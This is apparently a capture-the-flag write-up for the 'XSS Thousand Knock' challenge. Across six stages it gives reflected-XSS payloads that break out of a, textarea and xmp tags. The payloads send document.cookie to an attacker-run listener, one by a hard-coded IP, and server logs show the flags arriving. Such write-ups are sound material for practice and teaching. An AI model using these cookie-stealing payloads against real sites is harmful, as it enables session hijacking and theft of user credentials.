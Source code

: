 # XSS_Thousand_Knock_Write_up

# Stage 1 (Tutorial)- Set up VPS/VPN, I used my AWS Shadowsock VPN in this case, and I created a python to listen flag coming through my VPN server
	- Example: *http://8293927d3c84ed42eef26dd9ceaaa3d9bf448dda.knock.xss.moe/?location=%22http://example.com/?%22%2Bdocument.cookie*

	----> location="http://example.com/?"+document.cookie
	- <script>location=%22http://54.250.29.21:5000/?%22%2Bdocument.cookie</script>

	- 133.130.88.37 - - [23/Apr/2018 21:13:08] "GET /?flag=FLAG{waiwai_xss} HTTP/1.1" 200 - Flag is:FLAG{c1a43cdd6c2d3d4a082fe9351bce65f5917ca940}
# Stage 2
  -	http://1a31198b4289ff3af4f7195a810c48eba9f6bf28.knock.xss.moe/?q=%22%3E%3Cscript%3Elocation=%22http://YOUR VPN:5000/?%22%2Bdocument.cookie%3C/script%3E
	133.130.88.37 - - [23/Apr/2018 21:37:28] "GET /?flag=FLAG{c1a43cdd6c2d3d4a082fe9351bce65f5917ca940} HTTP/1.1" 200 -

# Stage 3
	Same as Stage 2
  - 133.130.88.37 - - [23/Apr/2018 22:05:37] "GET /?flag=FLAG{0041c8c9789deee9280396eb923d5b4ea8e887b2} HTTP/1.1" 200 -
# Stage 4
	- you need to bypass the <a> by </a> first, then implement XSS attack
	e1f80fe2ec262a235d594fbcee96dba66710.knock.xss.moe/?q='</a>"><script>alert(3)</script>
133.130.88.37 - - [23/Apr/2018 22:11:58] "GET /?flag=FLAG{b8ab462f4ee4aa10f1f0eadb16383f1a596f3ec2} HTTP/1.1" 200 -

# Stage 5
	Similar as Stage 4, you need to bypass textarea in this time
	133.130.88.37 - - [23/Apr/2018 22:17:54] "GET /?flag=FLAG{57a968be0c6c0ba1dbc8a222488358366fda4edf} HTTP/1.1" 200 -

# Stage 6
 	Similar, but you need to bypass XMP tag
	133.130.88.37 - - [23/Apr/2018 22:20:40] "GET /?flag=FLAG{66cd945a9de10077c24fc13b0834eec04a16df0c} HTTP/1.1" 200 -
